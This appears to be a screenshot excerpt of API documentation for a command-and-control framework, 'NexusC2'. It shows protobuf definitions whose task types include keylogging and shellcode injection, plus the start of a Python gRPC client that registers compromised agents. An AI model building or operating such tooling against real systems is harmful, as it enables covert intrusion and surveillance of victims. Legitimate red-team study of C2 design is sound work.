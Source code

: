 ```protobuf
    SCREENSHOT = 4;
    KEYLOGGER = 5;
    BOF_EXECUTION = 6;
    SHELLCODE_INJECTION = 7;
    PROCESS_LIST = 8;
    REGISTRY_QUERY = 9;
    SERVICE_CONTROL = 10;
}
```

#### TaskResult

```protobuf
message TaskResult {
    string task_id = 1;
    string agent_id = 2;
    TaskStatus status = 3;
    string output = 4;
    string error = 5;
    google.protobuf.Timestamp completed_at = 6;
    double execution_time = 7;
    uint32 exit_code = 8;
}

enum TaskStatus {
    TASK_UNSPECIFIED = 0;
    TASK_PENDING = 1;
    TASK_RUNNING = 2;
    TASK_COMPLETED = 3;
    TASK_FAILED = 4;
    TASK_TIMEOUT = 5;
    TASK_CANCELLED = 6;
}
```

### gRPC Client Examples

#### Python Client

```python
import grpc
import nexus_pb2
import nexus_pb2_grpc
from datetime import datetime

class NexusClient:
    def __init__(self, server_address, cert_file, key_file):
        # Load TLS credentials
        credentials = grpc.ssl_channel_credentials(
            root_certificates=open(cert_file, 'rb').read(),
            private_key=open(key_file, 'rb').read()
        )
        
        # Create channel
        self.channel = grpc.secure_channel(server_address, credentials)
        self.stub = nexus_pb2_grpc.NexusC2Stub(self.channel)
    
    def register_agent(self, agent_info):
        request = nexus_pb2.RegistrationRequest(
            hostname=agent_info['hostname'],
            os_type=agent_info['os_type'],
            os_version=agent_info['os_version'],
            ip_address=agent_info['ip_address'],
            username=agent_info['username'],
```